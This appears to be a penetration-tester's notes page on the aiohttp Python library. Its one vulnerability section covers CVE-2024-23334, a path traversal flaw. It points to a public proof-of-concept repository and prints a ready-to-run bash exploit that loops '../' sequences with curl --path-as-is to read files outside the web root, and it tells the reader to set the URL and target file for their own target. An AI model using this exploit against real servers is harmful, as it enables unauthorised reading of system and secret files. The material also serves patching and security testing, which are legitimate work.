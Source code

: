 ```yaml
---
description: >-
  Python library that supports both client and server side of HTTP protocol and
  Web-Sockets (asyncio)
icon: globe-pointer
---
```


# AIOHTTP

### <mark style="color:purple;">`Documentation`</mark>

{% embed url="https://docs.aiohttp.org/en/stable/index.html" %}

***

{% hint style="danger" %}
### <mark style="color:purple;">**`Vulnerabilities`**</mark>
{% endhint %}

{% embed url="https://security.snyk.io/package/pip/aiohttp" %}

<details>

<summary><mark style="color:red;"><strong><code>CVE-2024-23334 - Path Traversal</code></strong></mark></summary>

{% hint style="info" %}
## <mark style="color:purple;">Versions :</mark> <mark style="color:red;">**`1.0.5 - 3.9.2`**</mark>
{% endhint %}

* <mark style="color:purple;">This vulnerability has been present since the introduction of the</mark> <mark style="color:orange;">**`follow_symlinks`**</mark> <mark style="color:purple;">parameter.</mark>
* [<kbd><mark style="color:orange;">**More information**<mark style="color:orange;"></kbd>](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406)
* <mark style="color:purple;">Look at the requests or fuzz the site to look for directories leaking static resources.</mark>

{% hint style="info" %}
<mark style="color:red;">**`PoC`**</mark>

{% code overflow="wrap" %}
```bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
```
{% endcode %}

* <mark style="color:purple;">Update the</mark> <mark style="color:orange;">**`URL`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`payload`**</mark> <mark style="color:purple;">, and</mark> <mark style="color:orange;">**`file`**</mark> <mark style="color:purple;">variables in the</mark> <mark style="color:orange;">**`PoC`**</mark> <mark style="color:purple;">to match your target:</mark>

{% code title="Example" overflow="wrap" %}
```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
   payload+="$string"
   echo "[+] Testing with $payload$file"
   status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
   echo -e "\tStatus code --> $status_code"

   if [[ $status_code -eq 200 ]]; then
       curl -s --path-as-is "$url$payload$file"
       break
   fi
done
```
{% endcode %}
{% endhint %}

</details>

